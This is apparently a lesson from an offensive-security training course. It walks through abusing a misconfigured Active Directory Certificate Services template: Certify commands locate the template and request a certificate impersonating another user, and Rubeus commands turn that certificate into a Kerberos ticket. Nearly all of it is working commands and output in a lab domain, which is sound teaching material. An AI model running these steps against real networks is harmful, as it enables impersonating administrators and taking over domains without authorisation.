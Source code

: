 AD CS certificate templates are provided by Microsoft as a starting point for distributing certificates.  They are designed to be duplicated and configured for specific needs.  Misconfigurations within these templates can be abused for privilege escalation.

Certify can also find vulnerable templates.
```
beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe find /vulnerable
```
  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/d7e/9d6/306/customuser.png)

  

Let's go through the key parts of this output.

1. This template is served by _sub-ca_.
2. The template is called _CustomUser_.
3. _ENROLLEE_SUPPLIES_SUBJECT_ is enabled, which allows the certificate requestor to provide any SAN (subject alternative name).
4. The certificate usage has _Client Authenticatio__n_ set.
5. _DEV\Domain Users_ have enrollment rights, so any domain user may request a certificate from this template.

  If a principal you control has WriteOwner, WriteDacl or WriteProperty, then this could also be abused.

  

This configuration allows any domain user to request a certificate for any other domain user (including a domain admin) and use it for authentication.  Request a certificate for nlamb.
```
beacon> getuid
[*] You are DEV\bfarmer

beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:dc-2.dev.cyberbotic.io\sub-ca /template:CustomUser /altname:nlamb

[*] Action: Request a Certificates
[*] Current user context    : DEV\bfarmer
[*] No subject name specified, using current context as subject.

[*] Template                : CustomUser
[*] Subject                 : CN=Bob Farmer, CN=Users, DC=dev, DC=cyberbotic, DC=io
[*] AltName                 : nlamb

[*] Certificate Authority   : dc-2.dev.cyberbotic.io\sub-ca

[*] CA Response             : The certificate had been issued.
[*] Request ID              : 11

[*] cert.pem         :

-----BEGIN RSA PRIVATE KEY-----
[...]
-----END RSA PRIVATE KEY-----
-----BEGIN CERTIFICATE-----
[...]
-----END CERTIFICATE-----

[*] Convert with: openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

Certify completed in 00:00:05.4521116
```
  

Copy the whole certificate (both the private key and certificate) and save it to `cert.pem` on Ubuntu WSL.  Then use the provided `openssl` command to convert it to pfx format.
```
ubuntu@DESKTOP-3BSK7NO ~> openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
Enter Export Password: pass123
Verifying - Enter Export Password: pass123
```
  

Convert `cert.pfx` into a base64 encoded string so it can be used with Rubeus
```
ubuntu@DESKTOP-3BSK7NO ~> cat cert.pfx | base64 -w 0
MIIM7w[...]ECAggA
```
  

Then use `asktgt` to request a TGT for the user using the certificate.
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:nlamb /certificate:MIIM7w[...]ECAggA /password:pass123 /nowrap

[*] Using PKINIT with etype rc4_hmac and subject: CN=Bob Farmer, CN=Users, DC=dev, DC=cyberbotic, DC=io 
[*] Building AS-REQ (w/ PKINIT preauth) for: 'dev.cyberbotic.io\nlamb'
[*] Using domain controller: 10.10.122.10:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIGQj[...]5pbw==

  ServiceName              :  krbtgt/dev.cyberbotic.io
  ServiceRealm             :  DEV.CYBERBOTIC.IO
  UserName                 :  nlamb
  UserRealm                :  DEV.CYBERBOTIC.IO
  StartTime                :  9/7/2022 8:51:22 AM
  EndTime                  :  9/7/2022 6:51:22 PM
  RenewTill                :  9/14/2022 8:51:22 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  AliVFc5Nk93Z7IUkweCnBQ==
  ASREP (key)              :  4DB9D9D76701696109C28A26D27DE0B0
```